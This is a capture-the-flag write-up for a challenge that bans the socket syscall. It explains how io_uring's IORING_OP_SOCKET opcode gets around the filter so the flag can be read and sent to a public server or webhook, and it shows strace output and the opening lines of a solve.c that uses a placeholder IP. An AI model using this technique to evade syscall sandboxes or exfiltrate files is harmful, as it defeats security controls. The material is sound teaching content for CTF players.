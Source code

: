 
# Disconnect (500 points / 1 solve)
![Imgur](https://i.imgur.com/5VpjYNo.jpg)

The idea of this challenge is very simple, just banned `socket` syscall. Players are required to get the flag without using `socket` syscall.

I want to keep the challenge as lightweight as possible, I didn't implement so much on the hardening and it surely possible to come up with several unintended solutions.

In my team internal difficulty rating, we expected this would be a easy challenge for many expereinced pwners (especially kernel pwner) because of the hot topic of `io_uring` in KCTF in recent years.

We are surprised that only one team solved it (an unintended solution from Shellphish's fork bomb with no mercy).


## Intended Solution
https://manpages.debian.org/unstable/liburing-dev/io_uring_enter.2.en.html

READ this and you will find the anwser.
`io_uring_enter` can used for performing I/O operation. One of the opcode is `IORING_OP_SOCKET`, it do the same as `socket` syscall"

https://manpages.debian.org/unstable/liburing-dev/io_uring_enter.2.en.html#IORING_OP_SOCKET
>Issue the equivalent of a socket(2) system call. fd must contain the communication domain, off must contain the communication type, len must contain the protocol, and rw_flags is currently unused and must be set to zero. See also socket(2) for the general description of the related system call. Available since 5.19.

Through strace the solve script, there is not a single word 'socket' in the result.
```bash
io_uring_setup(1, {flags=0, sq_thread_cpu=0, sq_thread_idle=0, sq_entries=1, cq_entries=2, features=IORING_FEAT_SINGLE_MMAP|IORING_FEAT_NODROP|IORING_FEAT_SUBMIT_STABLE|IORING_FEAT_RW_CUR_POS|IORING_FEAT_CUR_PE4
mmap(NULL, 388, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_POPULATE, 4, 0) = 0x7f4004925000
mmap(NULL, 64, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_POPULATE, 4, 0x10000000) = 0x7f4004924000
io_uring_enter(4, 1, 0, 0, NULL, 8)     = 1
```

The above snip is part of the strace result of a socket fd creation.

Once we have a socket fd, the rest of stuffs are a piece of cake.

`open flag -> read flag -> create io_uring socket -> connect to your public server or webhook -> send flag -> solved`

## Exploit Script
You can retrieve the flag via listening on your public accessible machine or webhook services (e.g. requestbin)

> solve.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <liburing.h>

char *ip = "YOUR PUBLIC IP"; //change this
int port = 58888; //change this

int main(int argc , char *argv[])
```